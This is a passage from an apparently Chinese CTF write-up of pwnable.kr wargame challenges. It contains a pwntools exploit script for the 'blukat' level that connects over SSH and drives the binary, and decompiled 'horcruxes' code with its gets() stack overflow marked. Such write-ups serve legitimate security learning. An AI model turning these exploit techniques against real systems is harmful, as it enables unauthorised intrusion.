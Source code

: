 输入即可

**Exp**

```
#coding=utf-8
from pwn import *
context(arch="amd64",os="Linux",log_level="DEBUG")

shell = ssh(host="pwnable.kr",user="blukat",port=2222,password="guest")

shell.download_file("./password")

io=shell.run("./blukat")

io.sendlineafter("guess the password!","cat: password: Permission denied")
io.interactive()
```

## 0x15 horcruxes

逆向后核心源码

```cpp
int ropme()
{
  char s[100]; // [esp+4h] [ebp-74h]
  int v2; // [esp+68h] [ebp-10h]
  int fd; // [esp+6Ch] [ebp-Ch]

  printf("Select Menu:");
  __isoc99_scanf("%d", &v2);
  getchar();
  if ( v2 == a ) A();
  else if ( v2 == b ) B();
  else if ( v2 == c ) C();
  else if ( v2 == d ) D();
  else if ( v2 == e ) E();
  else if ( v2 == f ) F();
  else if ( v2 == g ) G();
  else
  {
    printf("How many EXP did you earned? : ");
    gets(s);//存在栈溢出
    if ( atoi(s) == sum )
    {
      fd = open("flag", 0);
      s[read(fd, s, 0x64u)] = 0;
      puts(s);
      close(fd);
      exit(0);
    }
    puts("You'd better get more experience to kill Voldemort");
  }
  return 0;
}
```
